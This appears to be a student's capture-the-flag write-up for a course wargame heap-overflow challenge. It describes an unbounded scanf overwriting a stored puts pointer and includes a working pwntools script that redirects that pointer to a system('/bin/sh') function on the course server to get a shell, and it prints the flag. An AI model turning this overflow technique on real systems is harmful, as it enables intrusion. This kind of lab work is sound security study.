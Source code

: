 heap 1 | `babys_first_1`
===========================

Flag: `6447{09d435a4-a0dd-46a9-bd7f-f39fdbf10cd3}`

General overview of problems faced
-------------------------------------
Had difficulty understanding what the goal of a Heap Overflow was.
Had to learn about heap and how to use gdb in order to print heap, bins etc.

List of vulnerabilities
--------------------
1. The name of the fish is taken from STDIN using `scanf(%s)` which allows arbitrary length inputh to be passed. This means we can overflow the buffer and write bytes after it.
2. Each allocated bin when creating a fish contains the address of the `puts` function which is used during program execution
3. The binary contains a function which call `system('/bin/sh')` allowing an attacker to point to it when doing a stack or heap overflow.


Steps to exploit
------------------
1. Get the address of the function which calls a shell from the binary (0x08048690)
2. Create a fish at position 0 with any size, weight and set the name to be 102 bytes of offset + the address of the win function in little endian format (`\x90\x86\x04\x08`)
3. View the fish you created
4. You now have a shell.

Script/Command used
------------------
```python
from pwn import *

# Flag: 6447{09d435a4-a0dd-46a9-bd7f-f39fdbf10cd3}

p = remote('wargames.6447.sec.edu.au', 9001)

p.sendline("1") # create a fish
p.sendline("0") # at position 0
p.sendline("10") # size
p.sendline("10") # weight
p.sendline('A' * 102 + '\x90\x86\x04\x08') # name

p.sendline("3") # view fish
p.sendline("0") # at position 0

p.recvrepeat(0.2)

print "Shell enabled."

p.interactive()
```
